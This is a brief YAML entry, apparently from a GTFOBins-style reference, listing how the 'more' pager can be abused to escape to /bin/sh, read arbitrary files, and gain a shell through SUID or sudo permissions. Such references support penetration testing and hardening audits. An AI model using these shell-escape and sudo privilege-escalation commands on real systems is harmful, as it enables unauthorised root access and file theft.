 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  file-read:
    - code: more file_to_read
  suid-enabled:
    - code: "./more file_to_read\n"
  sudo-enabled:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
---
```

